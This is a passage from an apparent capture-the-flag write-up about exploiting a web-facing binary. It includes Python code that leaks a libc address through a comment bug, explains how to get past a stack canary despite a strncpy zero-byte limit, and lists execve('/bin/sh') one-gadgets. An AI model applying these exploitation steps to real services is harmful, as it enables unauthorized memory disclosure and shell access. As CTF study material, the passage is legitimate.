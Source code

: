 And libc leaking is quite illustrative, there's no libc address found on the stack, but fortunately we have another leaking bug, the `comment` leaking. By using the `comment` leaking, we get the libc address:

```python
def leak_libc():
    register()
    for i in range(10):
        submit('a'.ljust(0x1000, 'b'), False)
    view_submit()


    submit('a')
    res = view_submit()
    text_start = b'<textarea id="compose-textarea" class="form-control" style="height: 300px" name="word">'
    idx = res.content.find(text_start) + len(text_start) + 1
    content = res.content[idx:].strip(b' ').split(b'\n')[0]
    libc_addr = u64(content.ljust(8, b'\x00'))
    libc_base = libc_addr - 0x1ebb61
    print(hex(libc_addr))
    print(hex(libc_base))
```

Note that the offset used to calculated libc_base is not stable.. I found at least three offsets, it can be inspected by last three digits. As for now I still remember `0x261` and `0xb61` possible. You can debug to find out the offset.

Now we have libc address and canary, and we have a stack overflow. Are we done? No!

The stack overflow is caused by `strncpy`, and it cannot contain any zeros. But there's zero byte in canary, what should we do?

For me, I used the reverse writing trick, where the first `tmp1` stack overflow writes the canary without zero byte and the return address (one gadget) and then, the `tmp2` is used to set the zero. This worked. But the problem is, let's take a look at the one gadgets we found (we cannot have a full rop beause of zero byte limit):

```python
$ one_gadget libc.so.6 
0xe6e73 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6e76 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
